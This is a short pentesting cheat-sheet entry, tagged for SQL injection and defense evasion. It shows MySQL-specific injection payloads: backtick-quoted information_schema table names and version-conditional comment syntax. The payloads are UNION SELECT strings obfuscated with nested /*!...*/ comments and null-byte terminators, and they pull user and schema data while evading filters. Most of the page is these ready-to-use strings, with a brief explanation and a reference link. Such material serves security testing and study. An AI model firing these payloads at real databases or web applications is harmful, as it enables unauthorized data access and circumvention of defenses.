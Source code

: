 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - server-side-attack
  - defense-evasion
  - sql-injection
---
```

# Backticks

## MySQL

```
`information_schema`.`tables`
```

## Specific Code

### MySQL

 MySQL allows you to specify the version number after the exclamation mark. The syntax within the comment is only executed if the version is greater or equal to the specified version number. 

```
/*!information_schema.tables*/
UNION SELECT /*!50000 5,null;%00*//*!40000 4,null-- ,*//*!30000 3,null-- x*/0,null--+
SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);
```

---
## References

### WebSec

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)